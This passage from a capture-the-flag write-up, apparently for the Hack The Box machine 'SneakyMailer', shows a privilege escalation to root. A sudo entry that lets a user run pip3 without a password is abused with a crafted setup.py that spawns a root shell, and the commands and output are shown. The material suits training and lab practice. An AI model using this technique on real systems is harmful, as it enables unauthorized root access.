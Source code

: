 ## Root Shell

We can run `pip3` with `sudo`.

```bash
kali@kali:~/Desktop/htb/sneaky$ ssh -i id_rsa low@sneakymailer.htb
Linux sneakymailer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Tue Jun  9 03:02:52 2020 from 192.168.56.105
low@sneakymailer:~$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

There is a `gtfobin` entry for `pip`. We can use that to get root.

```bash
low@sneakymailer:~$ TF=$(mktemp -d)
low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
id
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Processing /tmp/tmp.AzBugC2tJC
# uid=0(root) gid=0(root) groups=0(root)
```

And we are root.